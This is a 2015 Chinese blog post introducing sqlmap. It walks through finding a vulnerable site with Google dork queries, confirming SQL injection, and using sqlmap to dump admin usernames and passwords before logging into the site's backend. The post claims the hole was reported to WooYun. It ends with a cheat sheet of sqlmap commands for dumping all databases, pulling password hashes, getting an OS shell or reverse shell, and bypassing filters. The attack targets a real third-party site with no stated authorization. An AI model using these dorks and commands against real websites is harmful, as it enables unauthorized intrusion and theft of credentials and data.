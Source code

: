 ```yaml
---
layout: post
title: sqlmap 入门
category: old_blog
tags: sqlmap
keywords: sqlmap
description:
---
```


# sqlmap 入门

> 本文写于 2015.12.11
>
> 本人是遵纪守法的好少年，已上报给乌云

这次攻击毫无技术门槛，任何人都可以复制。只因是自己的第一次嘛，大家都懂的，趁这个机会也学习了些 sqlmap 和 sql 的知识，哈哈哈哈，开心就好。

Sqlmap 是一款非常强大的开源 sql 自动化注入工具，可以用来检测和利用sql注入漏洞。它由python语言开发而成，因此需要安装python环境。

注意： sqlmap 只用来检测和利用 sql 注入点，并不能扫描出网站有哪些漏洞。

首先当然是找到目标，通过一些 Google 的搜索技巧可以找到些问题网站，下面是几个常见的：
- `inurl:index.php?id=`
- `inurl:trainers.php?id=`
- `inurl:buy.php?category=`
- `inurl:article.php?ID=`
- `inurl:play_old.php?id=`
- `inurl:declaration_more.php?decl_id=`
- `inurl:pageid=`
- `inurl:games.php?id=`
- `inurl:page.php?file=`
- `inurl:newsDetail.php?id=`
- `inurl:gallery.php?id=`

通过搜索 `inurl:newsDetail.php?id=` ，我发现了下面这个网站。

![](/post_pic/sqlmap_1.jpg)

点开，在网址最后输入一个单引号( ‘ )，出现如下错误信息，说明这个站点存在 sql 注入漏洞。

![](/post_pic/sqlmap_2.jpg)

接下来利用 Sqlmap 来进行信息收集，先看几个常用的参数：
- `-u` ：该参数后面跟注入的目标URL。
- `–dbms` ：后面是目标站点所使用的数据库类型，注意要用分号来包含。
- `–current-user` ：该参数含义是显示当前管理数据的用户，同时也会显示最终确定的数据库类型。
- `–current-db` ：显示当前连接的数据库名称。
- `–tables` ：列出当前数据库的所有的表名。
- `-C` ：指定我们要猜的字段内容，与 -dump 一起使用。
- `-D` ：指定数据库名称。
- `–columns` ：列出指定表中的字段。
- `-v` ：指定哪个字段开始列出结果，一般后面跟0。

下面开始实战。

第一步，我们来扫面当前网站的用户。

![](/post_pic/sqlmap_3.jpg)

得到了数据库版本和当前用户信息。

![](/post_pic/sqlmap_4.jpg)

第二步，获取当前数据库。

![](/post_pic/sqlmap_5.jpg)

获取的数据库名称。

![](/post_pic/sqlmap_6.jpg)

第三步，利用已知信息，结合参数“–tables”，来猜数据库中的表名。

![](/post_pic/sqlmap_7.jpg)

获取的数据库中的表名。

![](/post_pic/sqlmap_8.jpg)

注意：一般与网站后台相关的字段，比如“username, password, admin”等登陆相关的表名要重点关注。

第四步，在这个例子中，相关的是“dl”这个表。

![](/post_pic/sqlmap_9.jpg)

得到下面这个表。

![](/post_pic/sqlmap_10.jpg)

第五步，见证奇迹的时刻到了，利用参数组合获取信息。

![](/post_pic/sqlmap_11.jpg)

得到下面的用户名和密码。

![](/post_pic/sqlmap_12.jpg)

第六步，登陆后台后我们就大功告成了。

![](/post_pic/sqlmap_13.jpg)

就这样，打完收工，好简单啊感觉。

参考资料：
- http://sqlmap.org/
- http://drops.wooyun.org/tips/143
- http://drops.wooyun.org/tips/401


#### 基本步骤
```
sqlmap -u “http://url/news?id=1“ –current-user 获取当前用户名称
sqlmap -u “http://url/news?id=1“ –current-db 获取当前数据库名称
sqlmap -u “http://url/news?id=1“ –tables -D “db_name” 列表名
sqlmap -u “http://url/news?id=1“ –columns -T “tablename” -D “db_name” -v 0 　　　　　 列字段
sqlmap -u “http://url/news?id=1“ –dump -C “column_name” -T “table_name” -D “db_name” -v 0 获取字段内容
```

#### 信息获取
```
sqlmap -u “http://url/news?id=1“ –smart –level 3 –users smart(智能)，level(执行测试等级)
sqlmap -u “http://url/news?id=1“ –dbms “mysql” –users users列数据库用户，dbs列数据库
sqlmap -u “http://url/news?id=1“ –passwords 数据库用户密码
sqlmap -u “http://url/news?id=1“ –passwords -U root -v 0 列指定用户数据库密码
sqlmap -u “http://url/news?id=1“ –dumps -C “column_name” -T “table_name” -D “db_name” –start 1 –stop 20 　　　 列出指定字段
sqlmap -u “http://url/news?id=1“ –dump-all -v 0 列出所有数据库所有表
sqlmap -u “http://url/news?id=1“ –privileges -U root 查看指定用户权限
sqlmap -u “http://url/news?id=1“ –is-dba -v 1 是否是数据库管理员
sqlmap -u “http://url/news?id=1“ –roles 枚举数据库用户角色
sqlmap -u “http://url/news?id=1“ –udf-inject 导入用户自定义函数(获取系统权限！)
sqlmap -u “http://url/news?id=1“ –dump-all –exclude-sysdbs -v 0 列出当前库所有表
sqlmap -u “http://url/news?id=1“ –union-cols union查询表记录
sqlmap -u “http://url/news?id=1“ –cookie “COOKIE_VALUE” cookie注入
sqlmap -u “http://url/news?id=1“ –data “id=3” post注入
sqlmap -u “http://url/news?id=1“ -v 1 -f 指纹判别数据库类型
sqlmap -u “http://url/news?id=1“ –proxy “http://127.0.0.1:8118“ 代理注入
sqlmap -u “http://url/news?id=1“ –string “STRING_ON_TRUE_PAGE” 指定关键词
sqlmap -u “http://url/news?id=1“ –sql-shell 执行指定sql命令
sqlmap -u “http://url/news?id=1“ –os-cmd=whoami 执行系统命令
sqlmap -u “http://url/news?id=1“ –os-shell 系统交换shell
sqlmap -u “http://url/news?id=1“ –os-pwn 反弹shell
sqlmap -u “http://url/news?id=1“ –reg-read 读取windows系统注册表
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” 保存进度
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” –resume 恢复已保存进度
sqlmap -u “http://url/news?id=1“ –msf-path=/…/msf2 –os-pwn 反弹shell需要metasploit路径
sqlmap -u “http://url/news?id=1“ –tamper “base64encode.py” 加载脚本(可利用绕过注入限制)
sqlmap -g “google语法” –dump-all –batch google搜索注入点自动跑出所有字段
```
